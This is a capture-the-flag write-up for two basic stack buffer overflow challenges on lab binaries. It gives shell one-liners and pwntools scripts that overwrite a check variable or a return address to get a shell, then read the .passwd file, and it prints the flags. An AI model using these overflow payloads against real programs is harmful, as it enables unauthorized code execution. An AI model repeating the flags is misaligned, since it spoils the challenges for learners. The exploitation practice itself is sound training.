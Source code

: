 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we give the buffer value as 40 and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

```
from pwn import *
io = process("./ch13")
payload = b"A"*40
payload += p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ``1w4ntm0r3pr0np1s``

# ***STACK BUFFER OVERFLOW BASIC 2***

From the given the challenge we give the buffer value as 128 and here if we send the address of the shell we get the shell


```cat <(python -c "print 'A' * 128 + '\x16\x85\x04\x08'") - | ./ch15```

```
from pwn import *
io = process("./ch15")
payload = b"A"*128
payload += p64(0x08048516)
io.sendline(payload)
io.interactive()
```
For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ```B33r1sSoG0oD4y0urBr4iN```



